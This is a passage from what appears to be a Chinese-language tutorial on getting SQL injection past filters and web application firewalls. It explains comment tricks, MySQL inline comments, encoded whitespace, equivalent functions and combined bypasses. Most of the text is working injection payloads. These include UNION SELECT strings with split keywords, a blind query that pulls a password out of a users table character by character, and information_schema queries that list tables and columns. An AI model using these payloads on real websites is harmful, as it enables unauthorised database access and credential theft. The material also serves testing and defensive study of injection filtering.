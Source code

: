 - 普通注释

举例：
z.com/index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4
    
&emsp;&emsp;/**/在构造得查询语句中插入注释，规避对空格的依赖或关键字识别;#、--+用于终结语句的查询
    
  - 内联注释
  

&emsp;&emsp;相比普通注释，内联注释用的更多，它有一个特性/!**/只有MySQL能识别

举例:
index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3

> ?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…

&emsp;&emsp;两个示例中前者使用内联注释，后者还用到了普通注释。使用注释一个很有用的做法便是对关键字的拆分，要做到这一点后面讨论的特殊符号也能实现，当然前提是包括/、*在内的这些字符能正常使用
    
1. 等价函数与命令
    有些函数或命令因其关键字被检测出来而无法使用，但是在很多情况下可以使用与之等价或类似的代码替代其使用
    
```sql
hex()、bin() ==> ascii()
sleep() ==>benchmark()
concat_ws()==>group_concat()
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
```
例如:
substring()和substr()无法使用时：
```sql
?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　
```
    
- 特殊符号
利用反引号等符号,或用@定义变量,或用+号连接被拆分的字符串

- HTTP参数控制
重复发送同一个参数,不太常见

- 缓冲区溢出
跟基于报错那个差不多

- 整合绕过
把前面说的合起来

```sql
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4

id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/  *!TaBlE_ScHeMa*/+like+database() -
?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--
```

速记:
- 空格过滤: 
  - 注释
  - %20 %09 %0a %0d %0b %0c %0d %a0等url编码
- 逗号过滤
  - 用JOIN()绕过
  - 用select绕过

[参考文章](http://drops.xmd5.com/static/drops/tips-7840.html)
